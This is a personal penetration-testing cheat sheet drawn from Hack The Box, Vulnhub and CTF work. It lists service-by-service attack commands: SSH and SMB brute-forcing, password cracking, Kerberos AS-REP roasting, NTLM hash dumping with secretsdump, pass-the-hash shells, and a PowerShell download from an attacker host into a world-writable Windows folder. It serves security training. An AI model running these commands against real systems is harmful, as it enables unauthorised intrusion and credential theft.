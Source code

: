 # pentest cheatsheet

> personal cheathsheet populated via my [HTB](https://www.hackthebox.eu/), [Vulnhub](https://www.vulnhub.com/) and CTF experience.

## Summary

1. [Common tasks](#common-tasks)
2. [Common services/ports](#common-servicesports)
3. [Windows](#windows)
4. [Linux](#linux)

___

## Common tasks

- Spawning TTY Shell: `python -c 'import pty; pty.spawn("/bin/bash")'`
- Running an HTTP Server: `python3 -m http.server`
- Password "cracking": `hashcat -m $ATTACK_MODE $FILE /usr/share/wordlists/rockyou.txt`

## Common services/ports

### Port 21 (FTP)

`ftp $TARGET`

- [ ] Check if you can log in as `annonymous`

### Port 22 (SSH)

- Connect to remote server with private key: `ssh -i $KEY_FILE $USER@$TARGET`
- Fix common key exchange issue: `ssh -oKexAlgorithms=+diffie-hellman-group1-sha1`
- Port forwarding: `ssh -L $LPORT:$TARGET:$RPORT $USER@$TARGET`

- **SCP**:
	+ Copy a local file to a remote host: `scp $LFILE $USER@$TARGET:$RFILE`
	+ Copy a file from a remote host to a local directory: `scp $USER@$TARGET:$RFILE $LDIR`
	
#### Bruteforce

- Bruteforce private key:

```bash
$ /usr/share/john/ssh2john.py id_rsa.bak > $USER.john
$ john $USER.john --wordlist=/usr/share/wordlists/rockyou.txt
```

- Bruteforce connection:
	+ **medusa**: `medusa -h $TARGET -U $USER_WORDLIST -P $PASSWORD_WORDLIST -M ssh`
	+ **hydra**: `hydra -L $USER_WORDLIST -P $PASSWORD_WORDLIST $TARGET ssh`

### Port 79 (Finger)

- [Pentestmonkey script]() :`./finger-user-enum.pl -U $USERNAME_WORDLIST -t $TARGET`
- Metasploit module: `use auxiliary/scanner/finger/finger_users`

> [Hacktricks - pentesting finger](https://book.hacktricks.xyz/pentesting/pentesting-finger)

### Port 80/443 (HTTP/HTTPS)

1. Looking for "hidden" directories/files:

```bash
# dirb
$ dirb http://$IP -o dirb.txt

# gobuster
$ gobuster dir -u http://$IP -w /usr/share/dirb/wordlists/common.txt -o gobuster.txt
```

- specific extension: 

```bash
# dirb
$ dirb http://$IP -X .<extension> -o dirb.txt

# gobuster
$ gobuster dir -u http://$IP -w /usr/share/dirb/wordlists/common.txt -x .<ext(s)> -o gobuster.txt
```

- ignore SSL error (gobuster): `gobuster dir -u https://$IP -w /usr/share/dirb/wordlists/common.txt -o gobuster.txt -k`
	
2. Looking for subdmains:

`gobuster dns -d $DOMAIN -w $WORDLIST`

3. Bruteforce GET/POST

> **_TODO_** ...

### Port 139/445 (SMB - Samba)

- Listing directories: `smbclient -L //<IP>/<Sharename> -U "username%password"`
- (Recursive search) Listing directories and permissions: `smbmap -H $TARGET -R | tee smbmap.txt`
- "Manual" bruteforce: `for u in $(cat usernames.txt); do echo "User: $u"; smbclient -L //<IP>/ -U "$u%$u"; done`

### Port 389 (LDAP)

- `ldapsearch -h <IP> -x -s base namingcontexts` 
- `ldapsearch -h <IP> -x -b "<distinguishedName>" | grep "^dn"`

___

## Windows

- [VbScrub - Tutorials](https://www.youtube.com/playlist?list=PL3B8L-z5QU-Yw80HOGXXUASBfv_K1WwO5)

### Tools

- [nishang](https://github.com/samratashok/nishang): collection of scripts and payloads which enables usage of PowerShell for offensive security
- [dnSpy](https://github.com/0xd4d/dnSpy#dnspy---latest-release---%EF%B8%8F-donate): debugger and .NET assembly editor.
- [BloodHound](https://github.com/BloodHoundAD/Bloodhound/wiki): reveal the hidden and often unintended relationships within an Active Directory environment. 

### Downloading files (alternative to `wget`)

> `c:\Windows\System32\spool\drivers\color\` is a wolrd-writeable directory.

```powershell
powershell -command "(new-object System.Net.WebClient).DownloadFile('http://$IP:$PORT/$FILE', 'c:\Windows\System32\spool\drivers\color\$FILE')"
```

### Shell

`gem install evil-winrm`

- `evil-winrm -i <ip> -u <username> -p <password>`
- PassTheHash: `evil-winrm -i <ip> -u <username> -H <NTLM_HASH>`

```powershell
*Evil-WinRM* PS C:\> NET USER # list users
```

### Kerberos

- `python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py <distinguishedName>/<username> -request -dc-ip <IP> [-no-pass -usersfile users.txt]`
- Kerberos 5 AS-REP etype 23 `hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`. See [hashcat wiki](https://hashcat.net/wiki/doku.php?id=hashcat) and [**hackndo** - kerberos as-rep roasting (fr)](https://beta.hackndo.com/kerberos-asrep-roasting/)

### Privesc

> _`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`_

1. `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc-ntlm <domainName>/<admin-user>@<IP>`
2. `python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes <NTLMhash> administrator@<IP> cmd.exe`

### Port 135 (RPC)

```bash
rpcclient -U "" $IP
<empty password>
rpcclient $> srvinfo       # identify the specific OS version
rpcclient $> enumdomusers  # display a list of users names defined on the server
rpcclient $> getdompwinfo  # get SMB password policy
rpcclient $> querydispinfo # get users info
```

### Post-exploitation

#### Tools

- [LOLBAS](https://lolbas-project.github.io/#)
	+ [GTFOBLookup](https://github.com/nccgroup/GTFOBLookup): offline command line lookup utility
- [PEASS - Privilege Escalation Awesome Scripts SUITE](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite#peass---privilege-escalation-awesome-scripts-suite)
	+ [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- [mimikatz](https://github.com/gentilkiwi/mimikatz#mimikatz)
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit): PowerShell Post-Exploitation Framework
- [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

___

## Linux

`sudo -l`

> **TODO**...

### Post-exploitation

- [GTFOBins](https://gtfobins.github.io/)
- [PEASS - Privilege Escalation Awesome Scripts SUITE](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite#peass---privilege-escalation-awesome-scripts-suite)
	+ [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
